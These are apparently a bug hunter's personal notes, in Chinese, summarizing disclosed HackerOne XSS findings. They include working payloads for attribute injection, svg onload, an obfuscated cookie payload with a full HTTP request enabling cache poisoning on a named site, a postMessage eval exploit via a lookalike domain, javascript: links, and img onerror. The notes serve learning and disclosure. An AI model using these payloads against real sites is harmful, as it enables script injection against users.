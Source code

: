 # 1.隐藏输入中的xss（绕过输入转义）
参数，位于post请求中的listViewHeading=
有效负载：" accesskey=X onclick=alert()
![[Pasted image 20241014211401.png]]
" accesskey=X onclick=alert() xxx
![[Pasted image 20241014211445.png]]
success

# 2.个人主页的项目名称中可以插入xsspayload
```
post
name="><svg onload="prompt(/xss/);"><!--
```

# 3.二维码xss
二维码执行js

# 4.cookie里的xss
cookie: hav=xxx 反射到页面上
payload:cookie:  hav=xss"</sc"ript><sv"g/onloa"d=al"ert"(document.do"main)>
缓存投毒，http响应里的头Cache-Control和Expires表明可以缓存
还发现cookie明文存储在页面js的这个变量window.INITIAL_STATE.system.cookie
直接alert(window.INITIAL_STATE.system.cookie)
厂商通过去除hav反射在页面修复该问题
邦邦的https://hackerone.com/reports/1760213

```
GET /annonces/location-vacances/france_midi-pyrenees_46_stcere_dt0.php.js?xxxd HTTP/2
Host: www.abritel.fr
Cookie: hav=xss"</sc"ript><sv"g/onloa"d=aler"t"(document.doma"in)>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.abritel.fr/signup?enable_registration=true&redirectTo=%2Fsearch%2Fkeywords%3Asoissons-france-%28xss%29%2FminNightlyPrice%2F0%3FpetIncluded%3Dfalse%26filterByTotalPrice%3Dtrue%26ssr%3Dtrue&referrer_page_location=serp
Upgrade-Insecure-Requests: 1
Te: trailers
```
.js触发缓存。?xxxd缓存破坏器

# 5.postmessage相关的xss
网页存在代码![[Pasted image 20241017232723.png|700]]
e.data有exec的话就用eval执行代码，这里检查origin，但是不严格
```
可以构造https://hq.upserve.com.mydomain.com/xss.html
页面里window.opener.postMessage({exec:'alert("xss")'},"https://inventory.upserve.com/login/);
向目标网站发送一个包含代码执行的消息
```
推荐插件:postmessage tracker
自动化工具：semgrep
或者自己在开发者工具搜
![[Pasted image 20241017233752.png]]

# 6.没有绕过csp的2000刀xss
https://hackerone.com/reports/1804177
这里hunter的提交最初被关闭为selfxss。但是通过与审核沟通，这是一个能攻击管理员的存储xss
在应用程序发现能够创建链接，并且被群组的人看到，于是
使用此`javascript://%0aalert(1)`作为链接创建Custom Link（存在xss的功能）
浏览器报错说csp阻止了，说明此处可能存在xss，于是报告漏洞

思考：学会和审核沟通

# 7.登陆错误的xss
正常情况target.com/login?error=xxx
攻击情况
```
target.com/login?error=<img src=1 onerror=alert()>
```

# 8.个人信息中心处xss
某个字段可以编辑进行存储xss
https://hackerone.com/reports/1921606